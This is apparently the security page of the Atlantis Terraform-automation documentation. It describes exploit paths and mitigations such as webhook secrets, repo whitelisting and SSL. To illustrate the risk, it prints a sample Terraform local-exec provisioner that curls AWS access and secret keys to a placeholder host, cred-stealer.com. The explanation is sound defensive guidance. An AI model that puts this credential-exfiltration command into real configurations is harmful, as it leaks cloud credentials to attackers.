 # Security
[[toc]]
## Exploits
Because you usually run Atlantis on a server with credentials that allow access to your infrastructure it's important that you deploy Atlantis securely.

Atlantis could be exploited by
* Running `terraform apply` on a malicious Terraform file with [local-exec](https://www.terraform.io/docs/provisioners/local-exec.html)
```tf
resource "null_resource" "null" {
  provisioner "local-exec" {
    command = "curl https://cred-stealer.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
  }
}
```
* Running malicious hook commands specified in an `atlantis.yaml` file.
* Someone adding `atlantis plan/apply` comments on your valid pull requests causing terraform to run when you don't want it to.

## Bitbucket Cloud (bitbucket.org)
::: danger
Bitbucket Cloud does not support webhook secrets. This could allow attackers to spoof requests from Bitbucket. Ensure you are whitelisting Bitbucket IPs.
:::
Bitbucket Cloud doesn't support webhook secrets. This means that an attacker could
make fake requests to Atlantis that look like they're coming from Bitbucket.

If you are specifying `--repo-whitelist` then they could only fake requests pertaining
to those repos so the most damage they could do would be to plan/apply on your
own repos.

To prevent this, whitelist [Bitbucket's IP addresses](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html)
 (see Outbound IPv4 addresses).

## Mitigations
### Don't Use On Public Repos
Because anyone can comment on public pull requests, even with all the security mitigations available, it's still dangerous to run Atlantis on public repos until Atlantis gets an authentication system.

### Don't Use `--allow-fork-prs`
If you're running on a public repo (which isn't recommended, see above) you shouldn't set `--allow-fork-prs` (defaults to false)
because anyone can open up a pull request from their fork to your repo.

### `--repo-whitelist`
Atlantis requires you to specify a whitelist of repositories it will accept webhooks from via the `--repo-whitelist` flag.
For example:
* Specific repositories: `--repo-whitelist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Your whole organization: `--repo-whitelist=github.com/runatlantis/*`
* Every repository in your GitHub Enterprise install: `--repo-whitelist=github.yourcompany.com/*`
* All repositories: `--repo-whitelist=*`. Useful for when you're in a protected network but dangerous without also setting a webhook secret.

This flag ensures your Atlantis install isn't being used with repositories you don't control. See `atlantis server --help` for more details.

### Webhook Secrets
Atlantis should be run with Webhook secrets set via the `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` environment variables.
Even with the `--repo-whitelist` flag set, without a webhook secret, attackers could make requests to Atlantis posing as a repository that is whitelisted.
Webhook secrets ensure that the webhook requests are actually coming from your VCS provider (GitHub or GitLab).

### SSL/HTTPS
If you're using webhook secrets but your traffic is over HTTP then the webhook secrets
could be stolen. Enable SSL/HTTPS using the `--ssl-cert-file` and `--ssl-key-file`
flags.
